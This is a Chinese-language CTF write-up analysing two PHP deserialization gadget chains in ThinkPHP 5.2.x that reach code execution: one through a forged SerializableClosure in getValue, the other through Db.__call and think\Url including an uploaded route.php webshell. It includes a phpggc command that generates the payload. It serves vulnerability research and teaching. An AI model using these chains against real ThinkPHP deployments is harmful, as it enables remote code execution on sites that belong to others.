 ```yaml
---
title: thinkphp v5.2.x 反序列化利用链挖掘
tags: 
  - cms
categories: codereview
date: 2019-09-10 12:59:00
---
```

# 0x00 前言

上周参与了N1CTF，里面有一道关于thinkphp5的反序列化漏洞的利用。记录一下关于该反序列化的利用链分析。
<!-- more -->

后文主要包括两条链的利用分析（一条是我找的，也是题目的预期解，另一条是wonderkun师傅找的非预期解）

# 0x01 环境准备

这里就不直接用题目的环境了，采用composer直接安装5.2.*-dev版本

```bash
composer create-project topthink/think=5.2.x-dev v5.2
```

# 0x02 利用链分析

## 背景回顾

tp5在我印象里反序列化的利用链存在一个Windows类的任意文件删除，但是在[这篇文章]([https://blog.riskivy.com/%E6%8C%96%E6%8E%98%E6%9A%97%E8%97%8Fthinkphp%E4%B8%AD%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%88%A9%E7%94%A8%E9%93%BE/](https://blog.riskivy.com/挖掘暗藏thinkphp中的反序列利用链/))的启示下，也算是找到了一条新的路（关于`__toString`的触发方式，除了字符串拼接的方式，还可以利用PHP自带函数参数的强制转换）。

这篇文章的利用链最后用到了5.1.37版本`think/Request.php`的 `__call`函数，该函数的调用函数名可控，所以可以导致任意调用其他的类函数。而在5.2.x版本不存在这样的一个`__call`函数，这意味着我们需要重新找一个最终达成命令执行的函数调用（`__call`函数前的利用链仍然可用）。

那么接下来，我们来看看5.2.x新的利用链吧：）

## think/model/concern/Attribute.php getValue可函数动态调用函数（题目的预期解）

由于5.1.37`__call`函数前的利用链仍然存在于5.2.x版本，这里就不再详述了。

先来看一下Conversion类的toArray函数

```php
public function toArray(): array
{
    // ...
    // 合并关联数据
    $data = array_merge($this->data, $this->relation);

    foreach ($data as $key => $val) {
        if ($val instanceof Model || $val instanceof ModelCollection) {
            // ...
        } elseif (isset($this->visible[$key])) {
            $item[$key] = $this->getAttr($key);// relation和visible存在同一个key就行
        // ...
    }

    // ...
```

去掉了无关的代码，这里`$this->visible`、`$this->relation`均可控，可伪造数据进入`getAttr`函数

```php
public function getAttr(string $name)
{
    // ...
    return $this->getValue($name, $value, $relation);
}

protected function getValue(string $name, $value, bool $relation = false)
{
  // 检测属性获取器
  $fieldName = $this->getRealFieldName($name);// 直接返回$name的值
	// ...
  if (isset($this->withAttr[$fieldName])) {
    // ...
    $closure = $this->withAttr[$fieldName]; // withAttr内容可控
    $value   = $closure($value, $this->data); // 动态调用函数
	  // ...
```

直接关注`getValue`函数，该函数可动态调用函数，并且调用函数、函数参数均可控。所以接下来有两种方法，第一种是找一个符合条件的php函数，另一种是利用tp自带的SerializableClosure调用，来看一下第二种。

[\Opis\Closure](https://github.com/opis/closure)可用于序列化匿名函数，使得匿名函数同样可以进行序列化操作。这意味着我们可以序列化一个匿名函数，然后交由上述的`$closure($value, $this->data)`调用执行。

```php
$func = function(){phpinfo();};
$closure = new \Opis\Closure\SerializableClosure($func);
$closure($value, $this->data);// 这里的参数可以不用管
```

以上述代码为例，将调用phpinfo函数。

到此为止，我们分析完了整一个调用流程，回顾一下

1. `vendor/topthink/framework/src/think/process/pipes/Windows.php`
	 `__destruct` ->` removeFiles` ->` file_exists` 强制转化字符串`filename`，这里的`filename`可控
	可触发`__toString`函数，下一步找可利用的`__toString`
2. `vendor/topthink/framework/src/think/model/concern/Conversion.php`
	`__toString` -> `toJson` -> `toArray`创造符合条件的`relation`和`visible`-> `getAttr`
	下一步调用`vendor/topthink/framework/src/think/model/concern/Attribute.php`的`getValue`函数
3. `vendor/topthink/framework/src/think/model/concern/Attribute.php`
  `getValue` -> `$closure`动态调用函数，且该内容可控
  下一步利用有两种，一种找符合的php函数，另一种利用tp自带的`SerializableClosure`调用
4. `vendor/opis/closure/src/SerializableClosure.php`
  构造可利用的匿名函数

我把exp集成到了[phpggc](https://github.com/wh1t3p1g/phpggc)上，使用如下命令即可生成

```bash
./phpggc -u ThinkPHP/RCE1 'phpinfo();'
```

这里由于用到了SerializableClosure，需要使用编码器编码，不可直接输出拷贝利用。

## think/Db.php __call函数可实例化任意类（题目的非预期解）

前面说到5.1.37版本的利用链的`__call`函数，在5.2.x版本没办法用了。但是从`__destruct`到`__call`的链路是通的，我们只需要重新找一个可用的`__call`函数即可。

来看一下`vendor/topthink/framework/src/think/Db.php`的`__call`函数

```php
public function __call($method, $args)
{
    $class = $this->config['query'];

    $query = new $class($this->connection);

    return call_user_func_array([$query, $method], $args);
}
```

`$this->config`和`$this->connection`均可控，这意味着我们可以实例化任意符合条件的类，这里找了`think\Url`

```php
public function __construct(App $app, array $config = [])
{
    $this->app    = $app;
    $this->config = $config;

    if (is_file($app->getRuntimePath() . 'route.php')) {
        // 读取路由映射文件
        $app->route->import(include $app->getRuntimePath() . 'route.php');
    }
}
```

该构造器引入了RuntimePath下的route.php文件，因为这道题是允许上传文件的，所以只要在可上传的目录下上传一个route.php的webshell即可。至于RuntimePath，`$app`为可控变量，直接修改`$runtimePath`的内容即可。

我们直接构造App对象为

```php
class App{

    protected $runtimePath;
    public function __construct(string $rootPath = ''){
        $this->rootPath = $rootPath;
        $this->runtimePath = "/tmp/";
        $this->route = new \think\route\RuleName();
    }
}
```

这个构造思路太溜了，膜一波：）

整理一下过程

1. `vendor/topthink/framework/src/think/process/pipes/Windows.php`
   `__destruct` ->` removeFiles` ->` file_exists` 强制转化字符串`filename`，这里的`filename`可控
   可触发`__toString`函数，下一步找可利用的`__toString`
2. `vendor/topthink/framework/src/think/model/concern/Conversion.php`
   `__toString` -> `toJson` -> `toArray `->`appendAttrToArray`->`$relation`调用不存在的函数，触发`__call`
3. `vendor/topthink/framework/src/think/Db.php`
   `__call` -> `new $class($this->connection)` 调用任意类的`__construct`函数
4. `vendor/topthink/framework/src/think/Url.php`
   构造App类，达到`include`任意文件的效果